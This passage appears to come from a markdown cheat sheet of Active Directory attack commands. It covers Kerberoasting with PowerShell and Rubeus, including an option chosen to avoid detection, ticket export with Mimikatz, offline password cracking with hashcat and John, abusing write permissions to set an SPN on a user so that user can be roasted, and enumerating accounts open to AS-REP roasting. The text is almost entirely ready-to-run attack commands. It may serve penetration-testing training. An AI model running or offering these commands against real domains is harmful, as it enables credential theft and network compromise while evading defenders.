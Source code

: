 ```
Request-SPNTicket "<SPN>"
```

#### Request TGS Avoid detection
- Based on encryption downgrade for Kerberos Etype (used by likes ATA - 0x17 stands for rc4-hmac).
- Look for kerberoastable accounts that only supports RC4_HMAC
```
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:<SERVICEACCOUNT> /simple /rc4opsec
```

#### Export ticket using Mimikatz
```
Invoke-Mimikatz -Command '"Kerberos::list /export"'
```

#### Crack the ticket
- Crack the password for the serviceaccount
```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\ticket.kirbi
```

```
.\hashcat.exe -m 13100 -a 0 <HASH FILE> <WORDLIST>
```

```
.\John.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt hashes.txt
```

### Set SPN
- If we have sufficient permissions (GenericAll/GenericWrite). It is possible to set a SPN and then kerberoast!
#### Enumerate permissions
```
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN>
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN> | Select-Object ObjectDN, ActiveDirectoryRights, IdentityreferenceName
```

#### Set SPN for the user
- Must be unique accross the forest. 
- Format ```<STRING>/<STRING>```
```
. ./PowerView_dev.ps1
Set-DomainObject -Identity <username> -Set @{serviceprincipalname=’<ops/whatever1>’}
```

#### Then Kerberoast user

## AS-REP Roasting
#### Enumerating accounts with kerberos preauth disabled
```
Get-DomainUser -PreauthNotRequired -verbose | select samaccountname
```
